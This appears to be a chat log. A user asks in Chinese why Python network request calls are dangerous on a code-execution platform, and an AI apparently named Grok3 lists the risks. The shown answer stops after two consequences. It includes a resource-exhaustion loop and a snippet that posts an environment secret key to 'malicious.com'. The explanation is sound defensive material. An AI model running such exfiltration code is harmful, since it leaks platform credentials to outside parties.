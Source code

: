 python中的网络请求类为什么属于不安全的高危操作，他们高危在哪？如果用户在我的计算平台上提交代码时包含 urllib.request.urlopen() ， requests.get() ， requests.post() 这些请求（但不限于此），可能会给我的计算平台造成什么不好的结果？



## Grok3

在 Python 中，网络请求类（如 `urllib.request.urlopen()`、`requests.get()`、`requests.post()` 等）被认为是不安全的高危操作，主要是因为它们允许用户代码与外部网络资源进行交互，而这种交互可能带来多种安全风险。以下是详细的分析，包括高危的具体原因以及对你的计算平台可能造成的潜在不良后果。

---

### **一、网络请求类为什么属于不安全的高危操作？**

1. **外部资源不可控**  
   网络请求的目标（URL）通常由用户代码指定，而外部资源（如服务器、文件、API 等）的内容和行为是不可控的。攻击者可能利用这一点访问恶意服务器或资源，从而引发安全问题。

2. **数据泄露风险**  
   网络请求可能导致敏感数据（如平台内部的密钥、用户信息、环境变量等）被发送到不受信任的外部服务器。如果用户代码在请求中附带了敏感信息，可能会导致数据泄露。

3. **恶意代码执行**  
   网络请求的响应可能包含恶意代码或数据。例如，攻击者可能通过精心设计的响应内容，诱导平台执行恶意操作（如反序列化漏洞、命令注入等）。

4. **拒绝服务（DoS）攻击**  
   用户代码可能通过网络请求对外部或内部服务发起大量请求，导致平台资源耗尽或目标服务不可用。例如，用户可能通过循环调用 `requests.get()` 发起 DDoS 攻击。

5. **网络钓鱼或中间人攻击**  
   如果网络请求未正确验证 SSL/TLS 证书（例如，忽略证书验证），可能导致中间人攻击（MITM），从而使平台暴露于数据篡改或窃取的风险。

6. **文件下载与执行风险**  
   网络请求可能用于下载文件（如恶意软件、可执行文件等），并在平台上执行这些文件，导致系统被入侵或破坏。

7. **绕过安全策略**  
   网络请求可能被用来绕过平台的访问控制或防火墙策略。例如，用户可能通过请求外部代理服务器，隐藏真实目标或执行被禁止的操作。

8. **法律与合规性问题**  
   如果用户通过你的平台发起非法请求（如爬取受版权保护的内容、攻击他人服务器等），可能导致你的平台面临法律责任或合规性问题。

---

### **二、如果用户代码包含网络请求，可能会给你的计算平台造成的不良后果**

假设你的计算平台允许用户提交并执行代码（例如一个在线代码运行平台、计算沙箱或云函数服务），以下是可能的不良后果：

1. **平台资源耗尽**  
   用户可能通过网络请求发起大量高频请求，消耗平台的 CPU、内存、网络带宽等资源，导致平台性能下降或服务不可用。例如：
   ```python
   import requests
   while True:
       requests.get("http://example.com")  # 无限请求导致资源耗尽
   ```

2. **敏感数据泄露**  
   用户代码可能通过网络请求将平台内部的敏感信息（如 API 密钥、数据库连接字符串、用户数据等）发送到外部服务器。例如：
   ```python
   import requests
   import os
   secret_key = os.environ.get("SECRET_KEY")  # 获取环境变量中的密钥
   requests.post("http://malicious.com", data={"key": secret_key})  # 泄露密钥
   ```
